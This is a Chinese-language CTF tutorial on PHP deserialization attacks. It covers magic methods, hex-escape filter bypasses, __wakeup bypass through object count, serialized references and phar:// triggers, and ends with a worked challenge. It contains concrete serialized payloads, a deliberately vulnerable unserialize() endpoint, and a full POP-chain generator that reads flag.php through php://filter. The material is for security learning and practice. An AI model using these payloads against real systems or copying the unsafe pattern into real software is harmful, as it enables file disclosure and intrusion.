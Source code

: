 ```yaml
---
title: 【WEB】PHP反序列化
---
```


# PHP 反序列化

魔术函数：

```
__construct() 当一个对象创建时被调用，反序列化不触发
__destruct()  当一个对象销毁时被调用
__toString()  当一个对象被当作一个字符串使用，比如echo输出或用 . 和字符串拼接
__call()      当调用的方法不存在时触发
__invoke()    当一个对象被当作函数调用时触发
__wakeup()    反序列化时自动调用
__get()       类中的属性私有或不存在触发
__set()       类中的属性私有或不存在触发
```

反序列化十六进制绕过关键字

```
在反序列化时，序列化中的十六进制会被转化成字母
当过滤了c2e38 ，即可用 \63\32\65\33\38 替代，S解析十六进制
username:y1ng\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0
password:";S:11:"\00*\00password";O:8:"Hacker_A":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_B":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}};s:1:"a";s:0:"
 
\00 会被替换为 %00
\65 会被替换为 e
 
过滤了%00，可用S来代替序列化字符串的s来绕过，在S情况下\00 会被解析成%00
```

序列化时类中私有变量和受保护变量，php7.1+ 对属性并不敏感，public 也可用于protected

```
private反序列化后是%00(类名)%00(变量名)，protect是%00*%00(变量名)
```

PHP5 以及 PHP7 < 7.0.10 可用wake up 绕过

<img src="/assets/wgpsec/images/php-serialize/2.png" alt="image-20201218105604315" style="zoom:80%;" />

当对象个数大于实际个数就不会触发



## 序列化引用：

<img src="/assets/wgpsec/images/php-serialize/3.png" alt="image-20201218105803889" style="zoom: 67%;"/>

这里的 R:2 即对第二个序列化变量的引用。第一个序列化变量是 a:2:{***}，第二个序列化变量是 i:0;s:3:"foo";

所以这道题可以构造 token 对 token_flag 的引用

payload = O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";s:10:"token_flag";R:4;}} 。

按序列化顺序排号：

(1), O:6:"Handle":2:{***}

(2), s:14:"%00Handle%00handle";O:4:"Flag":3:{***}

(3), s:4:"file";s:8:"flag.php";

(4), s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";

(5), s:10:"token_flag";R:4;

可以看出 token_flag 即为 4 号 token 的引用，所以序列化之后他们是恒等的。

 <img src="/assets/wgpsec/images/php-serialize/1.png" alt="image-20201218105854349" style="zoom:80%;" />

把b的地址给a，之后b再传入数据则a也相应变化

可以说这两个变量绑定在了一起，有一个改变，另一个也会一起改变

 

当没有 unserialize() 时可使用phar，file_exist() 会触发phar反序列化 ( PHP8中删除 )

当开头为phar的协议被过滤时，可使用compress.zlib:// 绕过

形如：compress.zlib://phar://



## 例题

目标路径存在 index.php 和 flag.php

index.php：

```
<?php
error_reporting(0);
class Vox{
    protected $headset;
    public $sound;
    public function fun($pulse){
        include($pulse);
    }
    public function __invoke(){
        $this->fun($this->headset);
    }
}

class Saw{
    public $fearless;
    public $gun;

    public function __toString(){
        $this->gun['gun']->fearless;
        return "Saw";
    }

    public function _pain(){
        if($this->fearless){
            highlight_file($this->fearless);
        }
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|php|\.\./i", $this->fearless)){
            echo "Does it hurt? That's right";
            $this->fearless = "index.php";
        }
    }
}

class Petal{
    public $seed;

    public function __get($sun){
        $Nourishment = $this->seed;
        return $Nourishment();
    }
}

if(isset($_GET['ozo'])){
    unserialize($_GET['ozo']);
}
else{
    $Saw = new Saw('index.php');
    $Saw->_pain();
}
?>
```

flag.php：

```
<?php
$flag="{This_is_flag}";
```

首先先找反序列化链入口，这里没有 `__destruct()`，能触发的只有 `__wakeup()`，入口从`__wakeup()`进，出口有两个，一个是 `_pain()` 的 `highlight_file($this->fearless)`，另一个是`__fun`中的 `include()`，这里可以使用 php 伪协议读取文件内容

然后捋一遍出现的魔术函数，有 `__wakeup()`，`__toString()`，`__invoke()`，`__get()`

`__wakeup()`是入口，后面有一句 `preg_match`，`$this->fearless` 是被当成字符串使用的，就是说如果把  `$this->fearless` 赋值为 对象 Saw 就会进入 `__toString()`，之后有 `$this->gun['gun']->fearless` ，Petal 类中不存在 `fearless` 属性，把 `gun['gun']`赋值为 对象 Petal 会进入 `__get()`，其中 `$Nourishment()` 可控，属性 `seed`赋值为对象，触发`__invoke()`伪协议包含读文件

### Payload

```
<?php
class Vox{
    protected $headset="php://filter/read=convert.base64-encode/resource=flag.php";
    public $sound;
}

class Saw{
    public $fearless;
    public $gun;
	public function _pain(){}
}

class Petal{
    public $seed;
}
$a = new Vox();
$b = new Saw();
$c = new petal();
$c->seed = $a;
$d = new Saw();
$d->gun['gun']=$c;
$b->fearless = $d;
echo(serialize($b));
?>
```